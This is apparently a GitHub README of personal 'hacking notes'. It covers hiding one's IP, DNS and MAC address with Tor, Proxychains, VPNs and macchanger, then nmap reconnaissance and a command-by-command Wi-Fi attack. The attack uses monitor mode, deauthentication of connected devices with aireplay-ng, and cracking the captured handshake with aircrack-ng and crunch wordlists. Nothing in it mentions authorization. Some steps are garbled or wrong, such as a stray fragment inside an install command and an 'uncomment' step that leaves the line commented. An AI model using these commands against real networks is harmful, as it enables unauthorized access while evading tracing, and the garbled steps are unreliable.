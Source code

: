 # Hacking Notes

## Anonymity

Keep you anonymous is to hide your internet connection footprints. It means hide your IP, DNS, ISP providers and MAC address. You can do this by setting up Proxychains or a VPN. Changing your MAC address keeps you safe from being banned from local networks

- ### Proxies Chains

  Install **Proxychains** and **Tor**

  ```
  apt install tor
  apt install proxychainsn IP or IP Domain and DNS info.
  ```

  This will use tor to make a proxy path till your destination connection.

  Go to `/etc/proxychains.conf` and:<br>

  1. Comment `strict_chain` --> `# strict_chain`
  2. Uncomment `dynamic_chain` --> `# dynamic_chain`
  3. Make sure that the following lines are in the bottom of the document:

    ```
    # defaults set to "tor"
    socks4  127.0.0.1 9050
    socks4  127.0.0.1 9050
    ```

  4. Make sure that tor and proxychains services are running and start the program you want using proxychains.

    ```
    $ service tor start
    $ service proxychains start
    $ proxychains firefox
    ```

    **You are now anonymous.** Go to dnsleaktest.com to verify your anonymity.

  5. [OPTIONAL] If you don't want to use tor by adding your own proxies in the end of the file in the following pattern:

    ```
    type host port [user pass]

    Examples:

    socks5 192.168.67.78 1080 lamer secret
    ```

    **Always user socks5 proxies**

- ### VPN and DNS

  This will set an anonymous DNS and a VPN connection.

  1. Edit `/etc/dhcp/dhclient.conf` to change your DNS server.
  2. Find the line `#prepend domain-name-servers 127.0.0.1`
  3. Change the localhost IP address in the line for other open DNS servers IP. Put 3 separated by commas.
  4. It should look like

    ```
    prepend domain-name-servers 37.235.1.174, 37.235.1.177;
    ```

    **You need to look for DNS IP addresses that are free, open and don't keep logs**

  5. Run `$ service network-manager restart` to restart your internet.

  6. Run `$ cat /etc/resolv.conf` to check if the DNS are listed there.

  7. **Disable webrtc** on your browser. Just look for it on google.

  8. Find a reliable Open VPN provider and download a VPN from them. Don't forget to grab the user and password if needed. www.vpnbook.com is a good source.

  9. Make sure you have openvpn installed.

  10. Run `$ openvpn file_you_downloaded.ovpn`. It may require the user and password that the vpn provider you downloaded provided.

  11. Wait until you get the `Intialization Sequence Completed` on your terminal.<br>
    <br>
    **You are now anonymous.** Go to dnsleaktest.com to verify your anonymity.

- ### Change you MAC address

  The MAC address don't leave the local network and it is hard to get tracked from it. But, you do can be banned from a network by your MAC address, so being able to change it will prevent you from a complete ban.

  1. Make sure **macchanger** is installed.
  2. Run `$ macchanger -s interface` to show your current and permanent
  3. Run `$ macchanger --help` to the option to change the ip address

## NETWORK SCAN

- ### GET Domain IP or IP Domain and DNS info.

  ```
  $ nslookup domain
  $ nslookup IP
  ```

- ### Get system info.

  NMAP tool. `$ nmap --help` to see how it works.

  1. Get device MAC, open ports, OS and other info.
  2. Find devices in a IP range.
  3. Check <https://nmap.org/nsedoc/> to see available scripts.
  4. <https://exploit-db.com> is a good resouce for this kind of scripts too.

  <br>
  Awk and grep are very useful to handle output.<br>

- ### Get IP location

  Use ipinfo.io with curl. Maximum of 1000 queries/day.

  ```
  curl ipinfo.io/37.235.1.174
  ```

## Wireless Hacking

Do not use virtual machines for brute force and anything of a kind. Too slow.

- ### Necessary tools:

  1. **aircrack-ng**: wifi sniffer and key cracker.
  2. **reaver**: wifi pin cracker.
  3. **crunch**: password list generator.

- ### Hack wifi using aircrack-ng with crunch

  1. Setup wireless card to monitor mode:

    - Get the nanme of your wifi interface using `$ ifconfig`. Ex.: wlan0.
    - Shut it down. `$ ifconfig wlan0 down`.
    - Set the monitor mode. `$ iwconfig wlan0 mode monitor`.
    - Turn it back on. `$ ifconfig wlan0 up`.

  2. Kill running process that may interfere:

    - Check for process and ther PID. `$ airmon-ng check wlan0`
    - Kill all of them but in the order: NetworkManager, dhclient, then the rest. `$ kill pid`
    - Run `$ airmon-ng check wlan0` to make sure that nothing is running.

  3. Start a new interface to monitor. `$ airmon-ng start wlan0`.

  4. Use the new interface to monitor the wifi networks available. `$ airodump-ng mon0`.

  5. Select a network and monitor it. `$ airodump-ng -c [CHANNEL] -w [FILE] --bssid [MAC ADDRES] [INTERFACE]`.

    ```
    $ airodump-ng -c 10 -w SCAN_OUT --bssid 90:F6:52:D0:42:74 mon0
    ```

  6. Keep the step before running and force a new authentication by disconnecting a device. `$ aireplay-ng -0 0 -a [MAC] [INTERFACE]`

    ```
    aireplay-ng -0 0 -a 90:F6:52:D0:42:74 mon0
    ```

  7. Stop the programs that you started and crack the the results of it.

    - If you are going to use a dictionary file:

      ```
      $ aircrack-ng -w [word list file] SCAN_OUT
      ```

    - If you are going to use crunch do:

      ```
      $ crunch <min-len> <max-len> [<charset string>] | aircrack-ng -w - [SCAN OUT .cap FILE] -e [WIFI NETWOERK NAME]
      $ crunch 12 12 -t .%%%%Alegria 169 | aircrack-ng -w - SCAN-01.cap -e dgmelo
      ```



--------------------------------------------------------------------------------
